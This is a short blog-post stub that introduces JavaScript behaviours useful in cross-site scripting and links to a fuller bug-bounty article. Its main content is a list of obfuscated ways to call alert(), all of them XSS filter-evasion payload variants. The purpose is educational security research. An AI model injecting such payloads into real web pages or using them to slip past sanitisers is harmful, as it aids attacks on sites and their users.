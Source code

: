 ```yaml
---
layout: post
title:  "Exploring JavaScript's Exploits: A Deep Dive Into XSS Vulnerabilities"
tags: [javascript, web, hacking, yeswehack]
categories: [bugbounty]
---
```


JavaScript, a programming language widely used on the Internet, can be utilized on both the client and server side for development. It's implemented on almost all web pages. This article will delve into JavaScript's unique and intriguing behaviours, including how they can be exploited in an XSS attack or a cross site scripting attack. We'll explore how these behaviours can be used in security research, and why they're relevant to web security, particularly in the context of the OWASP top ten.

```javascript
window.alert()
window['alert']()
alert()
alert``
onload=alert
\u0061lert()
globalThis.alert()
window?.alert()
eval?.('ale'+'rt('+')')
[1].find(alert)

好=alert,好()
var x=x||alert;x()
alert(1),ErrExit
[][0]??alert()
null??alert()
undefined??alert()
x??alert();var x;
```

> You can find the full article on [YesWeHack's blog page](https://www.yeswehack.com/learn-bug-bounty/javascript-language-made-for-bugs){:target="_blank"}
{: .prompt-info }